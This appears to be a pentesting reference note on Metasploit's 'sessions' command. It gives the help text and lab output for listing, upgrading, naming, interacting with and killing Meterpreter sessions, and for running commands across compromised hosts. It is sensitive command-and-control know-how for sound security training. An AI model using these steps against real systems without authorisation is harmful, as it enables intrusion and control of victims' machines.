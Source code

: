 # 02 - Sessions

Search Tag(s): #metasploit-framework #command-and-control

## 2.1 - Help Menu

```
msf > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -c, --command <command>              Run a command on the session given with -i, or all
    -C, --meterpreter-command <command>  Run a Meterpreter Command on the session given with -i, or all
    -d, --list-inactive                  List all inactive sessions
    -h, --help                           Help banner
    -i, --interact <id>                  Interact with the supplied session ID
    -k, --kill <id>                      Terminate sessions by session ID and/or range
    -K, --kill-all                       Terminate all sessions
    -l, --list                           List all active sessions
    -n, --name <id> <name>               Name or rename a session by ID
    -q, --quiet                          Quiet mode
    -s, --script <script>                Run a script or module on the session given with -i, or all
    -S, --search <filter>                Row search filter.
    -t, --timeout <seconds>              Set a response timeout (default: 15)
    -u, --upgrade <id>                   Upgrade a shell to a meterpreter session on many platforms
    -v, --list-verbose                   List all active sessions in verbose mode
    -x, --list-extended                  Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6
```

## 2.2 - List Active Session IDs

```
msf > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DEFALT  10.0.2.4:445 -> 10.0.2.15:50035  (10.0.2.15)

Upgrade the regular shell to meterpreter for enhanced post exploitation activities
```

## 2.3 - Upgrade Command Shell To Meterpreter Session

```
msf > sessions -u <session_ID>
```

## 2.4 - Name Session ID

```
msf > sessions -i 1 -n win10
[*] Session 1 named to win10
```

## 2.5 - Active Session IDs

```
msf > sessions -l

Active sessions
===============

  Id  Name   Type                     Information                   Connection
  --  ----   ----                     -----------                   ----------
  1   win10  meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DEFALT  10.0.2.4:445 -> 10.0.2.15:50035  (10.0.2.15)
```

## 2.6 - Interact Session ID

```
msf > sessions -1
[*] Starting interaction with win10...


meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session win10...
```

## 2.7 - Print More Info Of Session ID

```
msf > sessions -v

Active sessions
===============

  Session ID: 1
        Name: win10
        Type: meterpreter windows
        Info: NT AUTHORITY\SYSTEM @ DEFALT
      Tunnel: 10.0.2.4:445 -> 10.0.2.15:50035  (10.0.2.15)
         Via: exploit/multi/script/web_delivery
   Encrypted: Yes (AES-256-CBC)
        UUID: e9b905d567404039/x64=2/windows=1/2022-05-14T21:23:58Z
     CheckIn: 60s ago @ 2022-05-14 18:09:35 -0400
  Registered: No

msf > sessions -x

Active sessions
===============

  Id  Name   Type                     Checkin?  Enc?  Local URI  Information                   Connection
  --  ----   ----                     --------  ----  ---------  -----------                   ----------
  2   win10  meterpreter x64/windows  57s ago   Y     ?          NT AUTHORITY\SYSTEM @ DEFALT  10.0.2.4:445 -> 10.0.2.15:50035  (10.0.2.15)
```

## 2.8 - Terminate Session ID

```
msf > sessions -k 1
[*] Killing the following session(s): 1
[*] Killing session 1
[*] 10.0.2.15 - Meterpreter session win10 closed.

msf > sessions -K
```

## 2.9 - Execute Commands Pass Through Session ID(s)

### 2.9.1 - Command Sessions

```
msf > sessions -s <module> <-i <session_ID> | all>

msf > sessions -c <shell_command> <-i <session_ID> | all>
```

### 2.9.2 - Meterpreter Sessions

```
msf > sessions -s <module | meterpreter_script> <-i <session_ID> | all>

msf > sessions -C <meterpreter_command> <-i <session_ID> | all>
```

---
## References

- [Metasploit Unleashed: Msfconsole Commands](https://www.offsec.com/metasploit-unleashed/msfconsole-commands/)